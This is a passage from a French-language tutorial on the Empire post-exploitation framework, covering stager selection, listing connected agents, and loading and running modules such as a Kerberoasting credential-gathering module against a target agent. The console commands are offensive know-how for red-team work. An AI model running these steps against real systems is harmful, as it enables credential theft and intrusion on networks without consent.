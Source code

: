        ```bash
       usestager python/launcher
       ```
   * Configurez les options et exécutez comme précédemment.

***

#### 4. Surveiller les Agents

*   **Commande** :

    ```bash
    agents
    ```
* **Explication** :
  * Affiche la liste des agents actifs connectés à votre listener.

***

### 🔍 Étape 3 : Utilisation des Modules d'Empire

***

#### 1. Charger un Module

Empire propose une bibliothèque de modules pour accomplir diverses tâches comme :

* La collecte d’informations.
* L’escalade des privilèges.
* L’exécution de commandes.
*   **Commande** :

    ```bash
    usemodule powershell/credentials/gather/kerberoast
    ```
* **Explication** :
  * Charge un module pour récupérer les informations d'identification via des tickets Kerberos.

***

#### 2. Configurer et Exécuter un Module

1. **Afficher les options du module** :
   *   Commande :

       ```bash
       info
       ```
   * **Explication** : Affiche les paramètres du module.
2. **Configurer les options** :
   *   Exemple :

       ```bash
       set Target <agent_name>
       execute
       ```
